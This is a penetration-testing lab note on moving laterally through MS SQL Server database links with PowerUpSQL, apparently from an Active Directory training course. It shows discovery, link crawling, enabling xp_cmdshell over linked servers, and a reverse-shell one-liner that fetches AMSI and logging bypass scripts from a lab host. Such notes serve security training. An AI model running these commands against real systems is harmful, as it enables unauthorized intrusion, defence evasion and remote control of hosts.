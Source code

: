 MS SQL servers are generally deployed in plenty in a Windows domain

SQL Servers provide very good options for lateral movement as domain users can be mapped to database roles.

#### [PowerUpSQL](https://github.com/NetSPI/PowerUpSQL)

```powershell
 . .\PowerUpSQL-master\PowerUpSQL.ps1
```
###### Discovery (SPN Scanning) - find all mssql SPNs (default for mssql servers)
```powershell
Get-SQLInstanceDomain
```

###### Check Accessibility 
```powershell
Get-SQLConnectionTestThreaded

Get-SQLInstanceDomain | Get-SQLConnectionTestThreaded -Verbose
```

###### Gather Information
```powershell
Get-SQLInstanceDomain | Get-SQLServerInfo -Verbose
```

>**Note:** Review `ServiceName`, `AuthenticationMode`, `IsSysadmin` and `ActiveSessions`
#### Database Links
A database link allows a SQL Server to access external data sources like other SQL Servers and OLE DB data sources. In case of database links between SQL servers, that is, linked SQL servers it is possible to execute stored procedures

> **Note**: Database links work even across forest trusts. **Forest security boundaries can't even stop it**

[^1]![[Pasted image 20250521200749.png]]
###### Search for Database Links
```powershell
Get-SQLServerLink -Instance dbserver31.tech.finance.corp -Verbose
```

![[Pasted image 20250521201158.png]]


> [!NOTE] **NOTE**
> Connect to host using the `HeidiSQL` client


 Manual
```sql
select * from master..sysservers
```

###### Enumerating Database Links 
Jesus lol
```powershell
Get-SQLServerLinkCrawl -Instance dcorp-mssql -Verbose
```

![[Pasted image 20250521201531.png]]

Manual - The `Openquery()` function can be used to run queries on a linked database
```sql
select * from openquery("dcorp-sql1",'select * from master..sysservers')
```

Manual - `Openquery()` queries can be chained to access links within links (nested
links)
```sql
select * from openquery("dcorp-sql1",'select * from openquery("dcorp-mgmt",''select * from master..sysservers'')')
```

###### Executing Commands

> [!NOTE] **Note**
>  If `rpcout` is enabled (disabled by default), `xp_cmdshell` can be enabled like so:
> ```sql
> EXECUTE('sp_configure ''xp_cmdshell'',1;reconfigure;') AT "eu-sql"

Run commands using crawler
```powershell
Get-SQLServerLinkCrawl -Instance dcorp-mssql -Query "exec master..xp_cmdshell 'cmd /c set username'" 

Get-SQLServerLinkCrawl -Instance dcorp-mssql -Query "exec master..xp_cmdshell 'cmd /c set username'" -QueryTarget eu-sql
```

Reverseshell
```powershell
Get-SQLServerLinkCrawl -Instance dcorp-mssql -Query 'exec master..xp_cmdshell ''powershell -c "iex (iwr -UseBasicParsing http://172.16.100.48/sbloggingbypass.txt); iex (iwr -UseBasicParsing http://172.16.100.48/amsibypass.txt); iex (iwr http://172.16.100.48/Invoke-PowerShellTcp.ps1 -UseBasicParsing);Power -Reverse -IPAddress 172.16.100.48 -Port 443"''' -QueryTarget eu-sql35
```

Manual
```sql
select * from openquery("dcorp-sql1",'select * from openquery("dcorp-mgmt",''select * from openquery("eu-sql.eu.eurocorp.local",''''select @@version as version;exec master..xp_cmdshell "powershell whoami)'''')'')')
```


